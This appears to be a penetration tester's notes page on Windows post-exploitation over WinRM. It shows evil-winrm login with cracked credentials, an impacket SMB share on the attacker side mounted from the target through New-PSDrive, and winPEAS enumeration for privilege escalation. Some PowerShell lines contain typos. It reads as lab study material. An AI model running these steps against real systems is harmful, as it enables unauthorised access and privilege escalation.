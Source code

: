 # winrm

`IP`: `10.10.10.10` (assumed)
`Cred`: `pawned` (least permissions)

## TLDR
```mermaid
graph TD;
A[./evil-winrm.rb -u USERNAME -p PASS -i 10.10.10.10] --> B[Results]
B -->|userDIRs| D[Goodies]
B -->|winPEAS| E[pawned?]
E --> F[end]
```


## Local enum

`./evil-winrm.rb -u <user_found> -p <password_cracked> -i 10.10.10.10`

1. checks/validations
	- `cd C:\Users\xxx`
		- check for anything intresting
2. winPEAS (setting smbshare)
	- Goal: from winrm session using new PSDRive to mount the smb share.


- `Terminal $impacket_smb`
```shell
# smb server       #share  #dirtoshare               #user #pass
impacket-smbserver nullsmbshare $(pwd) -smb2support -user nullbrain -password nullbr41n

<impacket started..>
```

- `Terminal $evil-winrm`
```powershell
# Get new PS Drive, so need to store password in converto-string
$pass = convertto-securetstrign 'nullbr41n' -AsPlainText .Force
$pass  #validation

$cred = New-Object System.Management.Automation.PSCredential('nullbrain', $pass)

# We got credential object so now we can do PSDrive
New-PSDrive -Name nullbrain -PSProvider FileSystem -Credential $cred -Root \\IP\nullsmbshare

#<if success swe get prompt>
```

## Winpeas
```
cd nullbrain
./winPEAS.exe

<check output for anything intresting>
e.g:
- LAPS intalled?
	- requires admin to exploit
- cache login
	- requires admin to extract
- AV detected?
- C:\ permission to write in C:\
	- if any unquoted servicepath, this could be good way to privelege escalation
- comon SAM & SYSTEM Backup()
	- Check if its read protected
```
